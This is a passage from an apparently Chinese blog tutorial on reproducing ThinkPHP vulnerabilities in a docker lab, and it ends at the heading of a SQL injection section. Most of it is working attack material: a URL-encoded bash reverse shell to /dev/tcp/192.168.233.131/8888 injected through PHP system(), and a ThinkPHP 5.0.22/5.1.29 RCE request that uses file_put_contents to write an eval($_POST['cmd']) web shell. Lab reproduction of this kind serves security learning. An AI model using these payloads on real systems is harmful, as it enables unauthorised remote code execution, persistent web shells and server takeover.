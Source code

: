 ![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0DIbexObSXCFDRRznShVn3zHQwa1ErMsG8VwIbwUMv244q38gTMgdmg/640?wx_fmt=png "")  
  
亦或者直接马子执行反弹shell命令  
```
1=system%28%22bash+-c+'bash+-i+>%26+%2Fdev%2Ftcp%2F192.168.233.131%2F8888+0>%261'%22%29%3B
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0DXt6R1KHM5iaN5tYwe5iaps6ose9ibFJRQWZIrCKvYaIqK8C47Hm2ntfg/640?wx_fmt=png "")  
  
ok结束,docker-compose down下一关  
  
对了,这里我想和小白说几句话,漏洞复现确实是一个很枯燥的过程,但是只有复现完理解完才能有可能掌握这些漏洞,才能有可能在实战中认出这个洞,必不可少的一个过程,麋鹿希望读者能静下心来,去按照我们的文章一个一个复现一边,最后自己也写一个过程当作笔记,收集一个指纹表做为自己的参考.正如麋鹿主页说所,  
不管是对于高考这些应试考试,还是学习技术,学习本就是一场修行,就是用来炼心的,用来克服懒惰和心猿意马的.  
  
## ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞(5-rce)  
##   
  
  
**1 漏洞原理**  
  
由于框架错误地处理了控制器名称，因此如果网站未启用强制路由（默认设置），则该框架可以执行任何方法，从而导致RCE漏洞。  
  
**2 影响版本**  
  
5.0.22/5.1.29  
  
**3 复现**  
  
触发地址是  
```
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=+url编码后的马子
```  
  
对   
<?php phpinfo(); eval(@$_POST['cmd']); ?>进行编码然后拼接  
```
http://192.168.233.131:8080/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=milu.php&vars[1][]=%3C%3Fphp%20phpinfo()%3B%20eval(%40%24_POST[%27cmd%27])%3B%20%3F%3E
```  
  
‍  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0RfR2MI8MX5ibcBBxfRjZOlH1eDWT4qbjABva57jTZH43F6hq5sCW5ZQ/640?wx_fmt=png "")  
  
访问milu.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0cPtIzQ1iaYo84o9bzws5icviaoCkVBgX2FyfFY9EoFOhlXfkPMZqydt5w/640?wx_fmt=png "")  
  
后面反弹shell这些和前面一样![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoKDn47vnMSPA4lc6HHaGf0YVibgxwxV6avOcfN5WOJGcKPNyt2GYIdczWDDSM1TaJBSibOZTKILtcg/640?wx_fmt=png "")  
  
## ThinkPHP5 SQL注入漏洞 & 敏感信息泄露  
  
****# 1 漏洞原理  
  
